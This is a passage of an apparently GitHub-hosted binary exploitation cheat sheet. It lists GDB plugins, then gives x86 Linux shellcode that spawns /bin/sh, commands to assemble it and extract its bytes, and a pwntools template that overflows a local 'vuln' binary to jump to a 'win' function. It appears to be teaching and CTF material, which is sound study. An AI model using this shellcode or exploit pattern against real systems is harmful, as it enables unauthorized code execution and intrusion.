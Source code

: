 #### 🧠 GDB Plugins

| Plugin     | Command               | Feature                              |
| ---------- | --------------------- | ------------------------------------ |
| **pwndbg** | `context`             | Memory + register visualization      |
| **GEF**    | `heap`, `ropper`      | Heap and gadget utilities            |
| **PEDA**   | `checksec`, `pattern` | Binary protections and pattern tools |

***

### XIII. ⚙️ Shellcode Engineering

#### 🧩 Writing Custom Shellcode (x86 Linux)

```asm
section .text
global _start
_start:
    xor eax, eax
    push eax
    push 0x68732f2f
    push 0x6e69622f
    mov ebx, esp
    mov al, 0xb
    xor ecx, ecx
    xor edx, edx
    int 0x80
```

Assemble:

```bash
nasm -f elf32 shell.asm -o shell.o
ld -o shell shell.o
objdump -d shell | grep '[0-9a-f]:' | cut -f2 | tr -d '\n' | sed 's/ //g'
```

***

### XIV. 🧩 Exploit Template (Pwntools)

```python
from pwn import *
context(arch='amd64', os='linux')
elf = ELF('./vuln')
rop = ROP(elf)
offset = 72
payload = flat({offset: rop.ret.address}) + p64(elf.symbols['win'])
p = process(elf.path)
p.sendline(payload)
p.interactive()
```

